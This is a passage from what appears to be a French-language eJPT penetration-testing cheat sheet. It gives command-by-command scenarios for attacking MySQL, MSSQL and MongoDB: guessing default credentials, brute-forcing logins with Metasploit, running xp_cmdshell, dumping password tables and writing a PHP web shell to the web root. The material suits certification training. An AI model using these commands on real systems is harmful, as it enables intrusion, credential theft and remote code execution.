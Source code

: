 
## 🎯 7. Cas d'usage spécifiques eJPT

### Scénario 1: MySQL avec credentials faibles
```bash
# 1. Découverte MySQL
nmap -p3306 -sV target

# 2. Test credentials courants
mysql -h target -u root
mysql -h target -u root -proot
mysql -h target -u admin -padmin

# 3. Si succès → Énumération
mysql -h target -u root -proot -e "SHOW databases;"
mysql -h target -u root -proot -e "SELECT user,password FROM mysql.user;"

# 4. Tentative RCE via file write
mysql -h target -u root -proot -e "SELECT '<?php system(\$_GET[\"cmd\"]); ?>' INTO OUTFILE '/var/www/html/shell.php';"
```

### Scénario 2: MSSQL avec xp_cmdshell
```bash
# 1. Découverte MSSQL
nmap -p1433 --script ms-sql-info target

# 2. Brute force
use auxiliary/scanner/mssql/mssql_login
set RHOSTS target
set USER_FILE users.txt
set PASS_FILE passwords.txt
run

# 3. Si succès → Test xp_cmdshell
use auxiliary/admin/mssql/mssql_exec
set RHOSTS target
set USERNAME sa
set PASSWORD foundpassword
set CMD whoami
run
```

### Scénario 3: MongoDB sans authentification
```bash
# 1. Test connexion MongoDB
mongo target:27017 --eval "db.adminCommand('listCollections')"

# 2. Si accès → Énumération
mongo target:27017
show dbs
use sensitive_db
show collections
db.users.find()
db.passwords.find()
```

---